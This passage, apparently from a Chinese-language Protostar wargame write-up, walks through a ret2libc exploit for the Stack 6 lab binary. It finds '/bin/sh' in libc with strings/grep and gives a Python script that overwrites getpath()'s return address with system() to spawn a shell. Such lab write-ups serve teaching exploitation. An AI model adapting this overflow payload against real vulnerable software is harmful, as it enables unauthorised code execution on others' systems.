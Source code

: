 用`system()`函数的地址覆写`getpath()`的返回地址，根据函数在内存中的运行原理，还需要准备`system()`的返回地址和参数，如下图所示。

<img src=".\stack6-analysis-3.png" style="zoom:67%;" />

搜索libc空间，找`/bin/sh`的位置。

```shell
$ strings -t d /lib/libc.so.6 | grep "/bin/sh"
1176511 /bin/sh	# 在libc.so.6起始地址偏移1176511处找到
```

<img src=".\stack6-analysis-7.png" style="zoom:80%;" />

libc起始地址0xb7e97000 + `/bin/sh`偏移地址 = `/bin/sh`的入口地址，作为`system()`的参数。

综上所述，可拟攻击脚本如下：

```python
# stack6_binsh.py
import struct

buffer = ""
for i in range(0x41, 0x55):
	buffer += chr(i) * 4
system = struct.pack("I", 0xb7ecffb0) # system()入口地址
sys_ret = "AAAA" # system()返回地址，任意设置即可
binsh = struct.pack("I", 0xb7e97000+1176511) # /bin/sh入口地址
padding = buffer + system + sys_ret + binsh
print padding
```

<div STYLE="page-break-after: always;"></div>

# Protostar: Stack 7
